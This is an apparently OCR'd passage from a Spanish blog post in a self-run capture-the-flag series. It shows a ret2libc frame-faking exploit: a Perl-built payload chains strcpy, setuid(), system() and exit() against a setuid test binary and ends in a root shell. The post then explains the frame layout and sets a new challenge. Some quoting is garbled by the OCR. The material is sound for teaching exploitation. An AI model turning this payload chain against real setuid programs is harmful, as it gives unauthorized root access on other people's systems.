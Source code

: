 «x40xd2xffxff» . «x84x84x04x08″‘\`»  
$

\### Baia, guarden la calma ###

$ sudo chown root:root vuln  
\[sudo\] password for arget:  
$ sudo chmod u+s vuln  
$ /home/arget/vuln «\`perl -e ‘print  
«x54xd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9cxd2xffxff» . «xfcx82x04x08» .  
«x68xd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9dxd2xffxff» . «xfcx82x04x08» .  
«x7cxd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9exd2xffxff» . «xfcx82x04x08» .  
«x90xd2xffxff» . «x20x94xe8xf7» . «x84x84x04x08» . «x9fxd2xffxff» . «xfcx82x04x08» .  
«xa0xd2xffxff» . «x60x3dxebxf7» . «x84x84x04x08» .  
«ARGT» . # Este ARGT es el argumento para setuid()  
«xa4xd2xffxff» . «x50xc8xe3xf7» . «xc5x35xebxf7» . «xc8xecxf5xf7» .  
«x01AGT» . # Argumento para exit()  
«C»x20 . # Relleno final  
«x40xd2xffxff» . «x84x84x04x08″‘\`»  
\# whoami  
root  
#

Se aprecia claramente el esquema `EBP falso - strcpy() - &leave;ret - arg1 - arg2`en las primeras 4 líneas. Posteriormente se sigue el esquema `EBP falso - función() - &leave;ret - arg`. para las funciones setuid() y system(). Como exit() no retorna no necesita frame falso. Venga, fin de la función (sí, de nuevo con doble sentido). Esperemos en este epílogo no recoger ningún marco falso. Buenas tardes.

Retomamos el ctf propio. En esta ocasión propongo hallar una manera original de resolver el reto presentado en el post [ret2libc: Disparando con su propia pistola](/ret2libc-disparando-con-su-propia-pistola/). De este reto ya se han presentado dos soluciones en el post [ROP: En el exploiting y en el amor todo vale](/?p=619) (una en el [solucionario](/?p=619#solucionario-mepreguntosialguienleeraestetipodeurls) y otra en [medio del post](/?p=619#en-medio-del-post)).  
Ahora sí, buenas noches, tardes…